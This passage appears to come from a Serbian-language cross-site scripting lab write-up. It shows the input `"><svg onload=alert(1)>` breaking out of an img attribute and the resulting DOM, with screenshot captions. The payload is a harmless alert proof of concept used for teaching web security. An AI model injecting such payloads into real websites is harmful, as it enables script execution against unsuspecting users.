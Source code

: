 Ovo možemo da iskoristimo tako što ćemo kao vrednost uneti sledeće

```html
"><svg onload=alert(1)>
```

<p align="center"><img src="images/XSSTask11.png" alt="input"></p>
<p align='center'><i>slika 1.1 - unos vrednosti</i></p>
<br/>


nakon čega će DOM izgledati ovako:
```html
    <img src='.../searchTerms='>
    <svg onload=alert(1)>
```

<br/>
<br/>

<p align="center"><img src="images/XSSTask12.png" alt="DOM"></p>
<p align='center'><i>slika 1.2 - DOM stablo nakon unosa</i></p>

<br/>
<br/>
